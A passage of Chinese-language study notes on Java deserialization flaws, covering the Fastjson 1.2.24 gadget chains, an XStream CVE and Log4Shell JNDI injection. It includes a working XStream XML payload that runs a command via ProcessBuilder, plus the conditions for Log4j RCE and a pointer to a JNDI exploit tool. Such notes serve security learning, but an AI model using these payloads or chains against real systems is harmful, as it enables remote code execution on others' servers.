 可以打`cc5`的反序列化链子。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230720161403.png)


### Fastjson 1.2.24
> fastjson最早爆出的漏洞的版本，这里介绍两条常见的利用链。

#### TemplatesImpl

通过构造一个 TemplatesImpl 类的反序列化字符串，其中 `_bytecodes` 是我们构造的恶意类的类字节码，这个类的父类是 AbstractTranslet，最终这个类会被加载并使用 `newInstance()` 实例化。

在反序列化过程中，由于getter方法 `getOutputProperties()`，满足条件，将会被 fastjson 调用，而这个方法触发了整个漏洞利用流程：`getOutputProperties()` -> `newTransformer()` -> `getTransletInstance()` -> `defineTransletClasses()` / `EvilClass.newInstance()`.

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230720164530.png)


#### JdbcRowSetImpl

这个利用链最终是通过`javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230720164133.png)


### XStream CVE-2019-10173
> https://nosec.org/home/detail/2813.html

```xml
<sorted-set>  
<string>foo</string>  
<dynamic-proxy>  
<interface>java.lang.Comparable</interface>  
<handler class="java.beans.EventHandler">  
<target class="java.lang.ProcessBuilder">  
<command>  
<string>/System/Applications/Calculator.app/Contents/MacOS/Calculator</string>  
</command>  
</target>  
<action>start</action>  
</handler>  
</dynamic-proxy>  
</sorted-set>
```
XStream是Java类库，用来将对象序列化成XML(JSON)或反序列化为对象。

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230720170849.png)

### Log4j CVE-2021-44228
> 这是非常出名的log4j的cve，是一个jndi注入的问题。

恶意`jndi`服务可以用[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus)起，这个漏洞因为利用非常简单，并且通杀性很强，只要服务端`JDK`版本不高，没有关`trustURLCodebase`的情况下，用户输入的内容出现在`log.info()`，`log.error()`等函数中，就可以`RCE`。
